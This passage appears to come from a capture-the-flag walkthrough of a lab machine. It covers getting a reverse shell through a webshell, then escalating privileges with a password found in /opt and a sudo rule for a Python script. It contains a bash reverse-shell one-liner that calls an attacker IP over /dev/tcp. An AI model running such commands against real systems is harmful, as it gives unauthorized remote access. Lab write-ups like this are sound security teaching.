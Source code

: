 That was successful, now let's go to the shell page.

![shell](6.png)

Now let's get a reverse shell by running the following command on the webshell:

```bash
bash -c 'exec bash -i &>/dev/tcp/10.8.238.231/9001 <&1'
```

> Change the ip address in the command

![revshell](7.png)

## **Privilege Escalation**

### www-data -> lucien

Checking the `/opt` directory we find two files.

![password](8.png)

We found a password that might belong to user `lucien`.

Let's try ssh as `lucien` with the password.

![ssh](9.png)

That was successful.

### lucien -> death

let's check our privileges:

```terminal
lucien@dreaming:~$ sudo -l
Matching Defaults entries for lucien on dreaming:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on dreaming:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py
```

We can run a python script as user death.

There is a copy of `getDreams.py` in the /opt directory but it's missing a password.

The script seems to connect to the mysql database and retrieves some data.

```terminal
lucien@dreaming:~$ sudo -u death /usr/bin/python3 /home/death/getDreams.py
Alice + Flying in the sky

Bob + Exploring ancient ruins

Carol + Becoming a successful entrepreneur

Dave + Becoming a professional musician
```
